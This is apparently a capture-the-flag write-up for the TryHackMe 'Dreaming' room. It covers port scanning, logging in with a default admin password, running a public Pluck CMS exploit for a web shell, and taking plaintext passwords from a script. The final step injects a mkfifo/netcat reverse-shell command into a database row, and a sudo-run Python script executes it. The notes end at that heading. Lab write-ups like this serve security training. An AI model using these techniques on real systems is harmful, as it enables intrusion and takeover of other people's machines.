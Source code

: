 link: https://tryhackme.com/room/dreaming

<code>
└─$ nmap -sV -sC -Pn dreaming.thm        
Starting Nmap 7.92 ( https://nmap.org ) at 2024-01-12 04:22 CST
Nmap scan report for dreaming.thm (10.10.57.14)
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 76:26:67:a6:b0:08:0e:ed:34:58:5b:4e:77:45:92:57 (RSA)
|   256 52:3a:ad:26:7f:6e:3f:23:f9:e4:ef:e8:5a:c8:42:5c (ECDSA)
|_  256 71:df:6e:81:f0:80:79:71:a8:da:2e:1e:56:c4:de:bb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

 nmap, gobuster

http://dreaming.thm/app/pluck-4.7.13/?file=dreaming

<h2> Initial access </h2>

whoops default admin password is password
http://dreaming.thm/app/pluck-4.7.13/admin.php?action=start

use known exploit to get reverse shell
https://www.exploit-db.com/exploits/49909
─$ python3 49909.py 10.10.57.14 80 password /app/pluck-4.7.13/



p0wny@shell:/home# ls -la
total 20
drwxr-xr-x  5 root     root     4096 Jul 28 22:26 .
drwxr-xr-x 20 root     root     4096 Jul 28 22:35 ..
drwxr-xr-x  4 death    death    4096 Aug 25 20:04 death
drwxr-xr-x  5 lucien   lucien   4096 Aug 25 16:26 lucien
drwxr-xr-x  3 morpheus morpheus 4096 Aug  7 23:48 morpheus



<h2> PrivEsc to Lucien </h2>

run linpeas found interesing files 
www-data@dreaming:/opt$ ls -la
ls -la
total 16
drwxr-xr-x  2 root   root   4096 Aug 15 12:45 .
drwxr-xr-x 20 root   root   4096 Jul 28 22:35 ..
-rwxrw-r--  1 death  death  1574 Aug 15 12:45 getDreams.py
-rwxr-xr-x  1 lucien lucien  483 Aug  7 23:36 test.py
www-data@dreaming:/opt$ cat test.py
cat test.py
import requests
#Todo add myself as a user
url = "http://127.0.0.1/app/pluck-4.7.13/login.php"
password = "HeyLucien#@1999!"

data = {
        "cont1":password,
        "bogus":"",
        "submit":"Log+in"
        }

req = requests.post(url,data=data)

if "Password correct." in req.text:
    print("Everything is in proper order. Status Code: " + str(req.status_code))
else:
    print("Something is wrong. Status Code: " + str(req.status_code))
    print("Results:\n" + req.text)
www-data@dreaming:/opt$ su lucien
su lucien
<b>Password: HeyLucien#@1999!</b>
id
uid=1000(lucien) gid=1000(lucien) groups=1000(lucien),4(adm),24(cdrom),30(dip),46(plugdev)

get Lucien password login via ssh

<h2> PrivEsc to Death </h2>

lucien@dreaming:/opt$ sudo -l
Matching Defaults entries for lucien on dreaming:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lucien may run the following commands on dreaming:
    (death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py


lucien@dreaming:~$ mysql -u lucien -plucien42DBPASSWORD
mysql> use library
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Database changed
mysql> show tables;
+-------------------+
| Tables_in_library |
+-------------------+
| dreams            |
+-------------------+
1 row in set (0.00 sec)

mysql> select * from dreams;
+---------+------------------------------------+
| dreamer | dream                              |
+---------+------------------------------------+
| Alice   | Flying in the sky                  |
| Bob     | Exploring ancient ruins            |
| Carol   | Becoming a successful entrepreneur |
| Dave    | Becoming a professional musician   |
+---------+------------------------------------+

mysql> UPDATE dreams  set dreamer = 'id& rm', dream = ' /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.9.30.202 4445 >/tmp/f' WHERE dreamer = 'id& id';
Query OK, 1 row affected (0.01 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql> select * from dreams;
+-----------------+--------------------------------------------------------------------------------+
| dreamer         | dream                                                                          |
+-----------------+--------------------------------------------------------------------------------+
| Alice           | Flying in the sky                                                              |
| Bob             | Exploring ancient ruins                                                        |
| Carol           | Becoming a successful entrepreneur                                             |
| Dave            | Becoming a professional musician                                               |
| id& rm          |  /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.9.30.202 4445 >/tmp/f |
+-----------------+--------------------------------------------------------------------------------+

and run
lucien@dreaming:~$ sudo -u death /usr/bin/python3 /home/death/getDreams.py

<h2>get reverse shell as death </h2>



<\code>
